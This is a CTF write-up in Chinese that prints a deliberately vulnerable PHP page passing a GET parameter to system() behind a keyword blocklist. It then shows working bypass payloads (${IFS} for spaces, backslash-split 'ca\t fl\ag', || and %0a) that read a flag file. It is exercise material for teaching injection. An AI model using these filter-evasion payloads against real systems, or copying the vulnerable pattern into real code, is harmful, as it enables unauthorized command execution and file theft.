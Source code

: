 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

*

more

less

head

sort

tail

sed

cut

tac

awk

strings

od

curl

`

%

\x09即水平制表符

\x26即&符号

\>

\<





### 第一种

利用${IFS}绕过空格

利用%0a绕过无回显

利用\绕过字母

```
?c=ls||
```

![image-20250403160814159](./assets/image-20250403160814159.png)

```
?c=ca\t${IFS}fl\ag.php||
```

![image-20250403160844596](./assets/image-20250403160844596.png)

提示flag在根目录

```
?c=ls${IFS}/||
```

![image-20250403160920899](./assets/image-20250403160920899.png)

```
?c=ca\t${IFS}/fl\ag||
```

![image-20250403160932623](./assets/image-20250403160932623.png)





### 第二种

利用$IFS绕过空格

利用%0a绕过无回显

```
?c=ca\t$IFS/fl\ag%0a
```

![image-20250403161047826](./assets/image-20250403161047826.png)